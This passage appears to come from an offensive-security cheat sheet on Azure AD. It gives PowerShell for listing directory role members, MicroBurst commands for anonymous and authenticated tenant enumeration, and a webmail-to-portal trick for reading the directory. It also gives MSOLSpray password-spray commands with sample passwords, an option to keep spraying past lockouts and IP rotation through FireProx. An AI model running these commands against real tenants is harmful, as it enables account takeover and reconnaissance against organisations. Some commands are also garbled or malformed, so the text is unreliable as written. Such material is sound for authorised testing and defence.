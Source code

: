 ```powershell
ForEach($role in $roles) {
  $users=Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId
  ForEach($user in $users) {
    write-host $role.DisplayName,$user.DisplayName
    $obj = New-Object PSCustomObject
    $obj | Add-Member -type NoteProperty -name RoleName -value ""
    $obj | Add-Member -type NoteProperty -name UserDisplayName -value ""
    $obj | Add-Member -type NoteProperty -name IsAdSynced -value false
    $obj.RoleName=$role.DisplayName
    $obj.UserDisplayName=$user.DisplayName
    $obj.IsAdSynced=$user.DirSyncEnabled -eq $true
    $roleUsers+=$obj
  }
}
$roleUsers

### Enumeration using Microburst
git clone https://github.com/NetSPI/MicroBurst/blob/master/Get-AzureADDomainInfo.ps1
Import-Module .\MicroBurst.psm1

# Anonymous enumeration
Invoke-EnumerateAzureBlobs -Base company
Invoke-EnumerateAzureSubDomains -base company -verbose

# Authencticated enumeration
Get-AzureADDomainInfo
Get-AzureDomainInfo -folder MicroBurst -VerboseGet-MSOLDomainInfo
Get-MSOLDomainInfo
```


With Microsoft, if you are using any cloud services (Office 365, Exchange Online, etc) with Active Directory (on-prem or in Azure) then an attacker is one credential away from being able to leak your entire Active Directory structure thanks to Azure AD.

1. Authenticate to your webmail portal (i.e. https://webmail.domain.com/)
2. Change your browser URL to: https://azure.microsoft.com/
3. Pick the account from the active sessions
4. Select Azure Active Directory and enjoy!

## Azure AD - Password Spray

> Default lockout policy of 10 failed attempts, locking out an account for 60 seconds

```powershell
git clone https://github.com/dafthack/MSOLSpray
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```
